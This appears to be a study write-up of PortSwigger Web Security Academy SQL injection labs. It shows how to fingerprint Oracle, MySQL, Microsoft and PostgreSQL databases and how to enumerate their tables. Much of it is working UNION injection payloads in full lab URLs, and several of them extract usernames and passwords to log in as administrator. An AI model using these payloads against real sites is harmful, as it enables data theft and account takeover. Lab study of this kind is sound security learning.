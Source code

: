 # SQL injection examining the database

When exploiting SQL injection vulnerabilities, it is often necessary to gather some information about the database itself. This includes the type and version of the database software, and the contents of the database in terms of which tables and columns it contains. 

## Querying the database type and version

Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software. A list of some popular version of databases can be found in the [cheat sheet for SQLi](https://portswigger.net/web-security/sql-injection/cheat-sheet).

For example, you could use a `UNION` attack with the following input:

```
' UNION SELECT @@version--
```

Example of finding Oracle DB version and informations:

```
First we have to determine the number of cloumns in the return, so as to perform the UNION attack. We found it's 2.

Then, we could retrieve the data with the following request:

https://0ac2007e030f6bacc0184eee00320024.web-security-academy.net/filter?category=Gifts' UNION SELECT NULL,banner FROM v$version--
```

**Important:** In Oracle DB, every `SELECT` must include a `FROM`, so for the first part of the example it could be useful to keep in mind of the table `dual`, always present in Oracle DB!

Example of finding MySQL and Microsoft version and informations:

**Remember:** MySQL wants a space character after the double dash comment; in the request, for example from a browser search bar, a terminating space character could be trimmed, so an useful way to avoid it from happening could be to insert the space in URL encoding, %20, or to add an extra character after the space, that doesn't affect the attack because it will be commented in the query.

```
Finding the number of columns in the query:
https://0a9000a703e73587c1289e0d000900f5.web-security-academy.net/filter?category=Gifts' ORDER BY 2--%20

Make the site display the version of the DB:
https://0a9000a703e73587c1289e0d000900f5.web-security-academy.net/filter?category=Gifts' UNION SELECT NULL,@@version--%20
```

## Listing the contents of the database

Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

You can query `information_schema.tables` to list the tables in the database:

```
SELECT * FROM information_schema.tables
```

You can then query `information_schema.columns` to list the columns in individual tables:

```
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

Example of UNION attack to detect users table and log in as administrator:
```
We know the DB is non-Oracle, so it could be MySQL, PostgreSQL or Microsoft. The following request will work for the three of them:

https://0af1008b04189d62c0ccb95600fd0068.web-security-academy.net/filter?category=Gifts' UNION SELECT NULL,NULL-- d

We found the number of columns, now it's time to extract informations about the tables. We have to keep two columns in the output, so we try to keep the table names:

https://0af1008b04189d62c0ccb95600fd0068.web-security-academy.net/filter?category=Gifts' UNION SELECT NULL, TABLE_NAME FROM information_schema.tables-- d

In the result, some table's names begin with pg_, which is usual for PostgreSQL databases. We assume the database is PostgreSQL.
Found some tables with users as part of the name, gonna try some to see its columns' name. Also in this case, we have to keep two columns in the result:

https://0af1008b04189d62c0ccb95600fd0068.web-security-academy.net/filter?category=Gifts' UNION SELECT TABLE_NAME,COLUMN_NAME FROM information_schema.columns WHERE table_name = 'users_etclym'--

Found column names username_hcdmth and password_jtrbxr, so this was the correct table. Now we are going to retrieve all usernames and passwords:

https://0af1008b04189d62c0ccb95600fd0068.web-security-academy.net/filter?category=Gifts' UNION SELECT username_hcdmth,password_jtrbxr FROM users_etclym--

Got administrator password, know we can log in.
```

## Equivalent to information schema on Oracle

On Oracle, you can obtain the same information with slightly different queries.

You can list tables by querying `all_tables`:

```
SELECT * FROM all_tables
```

And you can list columns by querying `all_tab_columns`:

```
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```

Example of UNION attack to detect users table and log in as administrator, in Oracle DB:

```
https://0a7200ea048238d1c07b201f00ec0041.web-security-academy.net/filter?category=Gifts ' UNION SELECT NULL,NULL FROM dual--

Found that there are two columns, now going to find all the table to search for users' one:

https://0a7200ea048238d1c07b201f00ec0041.web-security-academy.net/filter?category=Gifts ' UNION SELECT NULL,TABLE_NAME FROM all_tables--

Could scroll to all the tables to find someone with users as part of the name or use a more complicated query, as the following:

https://0a7200ea048238d1c07b201f00ec0041.web-security-academy.net/filter?category=Gifts ' UNION SELECT NULL,TABLE_NAME FROM all_tables WHERE TABLE_NAME LIKE '%USERS%'--

Found table USERS_MGYBJP, seems to be the one. Looking for columns. Needed to search for exact name of COLUMN_NAME on Oracle's documentation:

https://0a7200ea048238d1c07b201f00ec0041.web-security-academy.net/filter?category=Gifts ' UNION SELECT NULL,COLUMN_NAME FROM all_tab_columns WHERE TABLE_NAME = 'USERS_MGYBJP'--

Found column names, listing all usernames and passwords:

https://0a7200ea048238d1c07b201f00ec0041.web-security-academy.net/filter?category=Gifts ' UNION SELECT USERNAME_MCYYNU,PASSWORD_VGNTBS FROM USERS_MGYBJP--

Got administrator password, know we can log in.
```